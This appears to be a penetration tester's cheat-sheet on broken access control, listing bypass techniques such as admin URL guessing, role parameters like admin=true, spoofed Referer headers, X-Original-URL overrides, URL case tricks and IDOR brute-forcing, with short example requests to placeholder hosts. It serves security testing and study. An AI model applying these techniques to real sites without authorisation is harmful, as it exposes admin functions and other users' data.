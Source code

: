 # BAC

Access control is the application of constraints on who or what is authorized to perform actions or access resources.

## <mark style="color:purple;">Unprotected functionality</mark>

```sh
# Direct access
https://insecure-website.com/admin

# Less predictable URL -> maybe the URL is in JS constructing the user UI
https://insecure-website.com/administrator-panel-yb556
```

If you have an admin account, repet the request with a normal user cookie. (autorize burp extension can be useful)

## <mark style="color:purple;">Parameter-based</mark>

Some applications determine the user's access rights or role at login, and then store this information in a user-controllable location. This could be:

* **A hidden field**
* **A cookie value**
* **A preset query string parameter**
  * `https://insecure-website.com/login/home.jsp?admin=true`
  * `https://insecure-website.com/login/home.jsp?role=1`

## <mark style="color:purple;">Referer-based</mark>

```
GET /admin --> HTTP/1.1 401 Unauthorized
```

Try to request a subpage and set Referer

```http
GET /admin/deleteUser HTTP/1.0
Referer: https://vulnerable-website.com/admin
```

You need to know sub-pages (you can brute-force them) and eventually parameters to perform an action.

## <mark style="color:purple;">Platform misconfiguration</mark>

**Try another HTTP method**

```markdown
GET
HEAD
POST
PUT
DELETE
CONNECT
OPTIONS
TRACE
PATCH
TEST
```

**Override the URL in the original request**&#x20;

E.g. `X-Original-URL` , `X-Rewrite-URL`. If it's not found it works.

```http
Get / HTTP/1.0
X-Original-URL: /donotexist1
X-Rewrite-URL: /donotexist1
```

## <mark style="color:purple;">URL-matching discrepancies</mark>

```markdown
/admin/deleteUser
/ADMIN/DELETEUSER
/admin/deleteUser.anything
```

## <mark style="color:purple;">IDOR</mark>

Try other ID / Brute force

```markdown
https://insecure-website.com/myaccount?id=123
```

## <mark style="color:purple;">Multi-step processes</mark>

Imagine a website where steps 1 and 2 have access controls, but step 3 doesn't. -> skip the first two steps.

&#x20;(1) Load user details, (2) Submit changes, (3) Review and confirm.

## <mark style="color:purple;">Tips</mark>

*   An application might use GUIDs to identify users, but GUIDs of other users could be exposed elsewhere in the app, such as in user messages or reviews.


* An application may detect unauthorized access and redirect to the login page, but the response might still expose sensitive data of the targeted user.
